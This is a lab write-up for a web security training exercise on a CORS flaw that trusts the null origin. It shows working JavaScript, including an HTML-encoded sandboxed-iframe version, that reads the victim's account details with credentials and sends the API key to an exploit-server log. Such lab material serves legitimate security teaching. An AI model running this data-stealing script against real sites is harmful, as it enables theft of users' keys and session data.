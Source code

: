 # CORS vulnerability with trusted null origin
# Objective
This website has an insecure CORS configuration in that it trusts the `null` origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

# Solution
## Analysis
The `GET` request to `/accountDetails` retrieves: username, email, apikey and active user sessions.
|![](Images/image-4.png)|
|:--:| 
| *Normal request and response* |

After adding `Origin: null` to the request, the application reflects the origin `null` origin in `Access-Control-Allow-Origin` header.
|![](Images/image-5.png)|
|:--:| 
| *Reflected null origin in response* |


## Exploitation
In order to exploit this CORS vulnerability, attacker can use the followinng code:
```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ae200c90441a8f18049364d00fc008a.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a1000b8046da86880ea359001170022.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>
```
HTML enoding can help deal with special characters.
|![](Images/image-7.png)|
|:--:| 
| *HTML encoding the above javascript code* |

Final page:
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial">
    </head>
    <body>
        <h4>Exploit</h4> 
        <iframe 
        sandbox="allow-scripts allow-top-navigation allow-forms"
        srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x76;&#x61;&#x72;&#x20;&#x72;&#x65;&#x71;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x72;&#x65;&#x71;&#x4c;&#x69;&#x73;&#x74;&#x65;&#x6e;&#x65;&#x72;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x27;&#x67;&#x65;&#x74;&#x27;&#x2c;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x65;&#x32;&#x30;&#x30;&#x63;&#x39;&#x30;&#x34;&#x34;&#x31;&#x61;&#x38;&#x66;&#x31;&#x38;&#x30;&#x34;&#x39;&#x33;&#x36;&#x34;&#x64;&#x30;&#x30;&#x66;&#x63;&#x30;&#x30;&#x38;&#x61;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x27;&#x2c;&#x74;&#x72;&#x75;&#x65;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x66;&#x75;&#x6e;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x72;&#x65;&#x71;&#x4c;&#x69;&#x73;&#x74;&#x65;&#x6e;&#x65;&#x72;&#x28;&#x29;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x65;&#x78;&#x70;&#x6c;&#x6f;&#x69;&#x74;&#x2d;&#x30;&#x61;&#x31;&#x30;&#x30;&#x30;&#x62;&#x38;&#x30;&#x34;&#x36;&#x64;&#x61;&#x38;&#x36;&#x38;&#x38;&#x30;&#x65;&#x61;&#x33;&#x35;&#x39;&#x30;&#x30;&#x31;&#x31;&#x37;&#x30;&#x30;&#x32;&#x32;&#x2e;&#x65;&#x78;&#x70;&#x6c;&#x6f;&#x69;&#x74;&#x2d;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x6c;&#x6f;&#x67;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x27;&#x2b;&#x65;&#x6e;&#x63;&#x6f;&#x64;&#x65;&#x55;&#x52;&#x49;&#x43;&#x6f;&#x6d;&#x70;&#x6f;&#x6e;&#x65;&#x6e;&#x74;&#x28;&#x74;&#x68;&#x69;&#x73;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x3b;&#x0a;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;">
        </iframe>
    </body>
</html>
```

|![](Images/image-6.png)|
|:--:| 
| *Log with administrator API key* |
|![](Images/image-8.png)|
| *URL decode data* |

